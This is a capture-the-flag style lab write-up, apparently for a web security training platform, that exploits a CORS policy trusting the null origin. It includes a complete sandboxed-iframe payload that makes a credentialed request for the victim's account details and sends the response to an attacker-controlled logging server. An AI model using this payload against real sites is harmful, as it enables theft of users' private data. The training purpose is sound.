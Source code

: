 We start with setting the **Target Scope** to the target domain. Then we set our browser to use Burp proxy and turn the Burp intercept **off**. After logging in with creds provided we see all the requests made in the target sitemap. Out of this one request to `/accountDetails` stands out as it contains a CORS header `Access-Control-Allow-Credentials: true`.

![image](https://user-images.githubusercontent.com/86168235/127904611-c2910c0e-3c84-466f-ad33-4024e538037f.png)


Next we add a `Origin` header to the request with a random website name and find that random requester `Origin` is blocked by CORS policy. So, next we sent the request with `Origin: null` header and we see that our request got a response with `Access-Control-Allow-Origin: null` header which means our requested `null` Origin is whitelisted by CORS policy and we can further exploit this.


## Exploitation
Same as in Lab 1 we go to the exploit server and insert out payload into the Body part. Use the following code:-

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
const xhr = new XMLHttpRequest(),
    method = 'GET',
    url = 'https://ac8d1f9f1f373e2980af24f4009a00a2.web-security-academy.net/accountDetails';
    
function handler() {
    location='https://exploit-ac781fd71f833e3280d6247b01c900e9.web-security-academy.net/log?body='+this.responseText;
    };
xhr.onload = handler;
xhr.open(method, url, true);
xhr.withCredentials = true;
xhr.send();
</script>"></iframe>
```
**Note**:- As sandboxed cross-origin requests are treated as null origin requests by browsers, the above iframe sandbox will create a null origin request for us, thus helping satisfy CORS whitelist.

---

**Next**, click on `Deliver exploit to victim` and check the `Access log` and you'll see the `/accountDetails` response body of the administrator user in our logs.

![image](https://user-images.githubusercontent.com/86168235/127904943-be8b940c-3c39-4d3b-9987-e438b41d7d14.png)
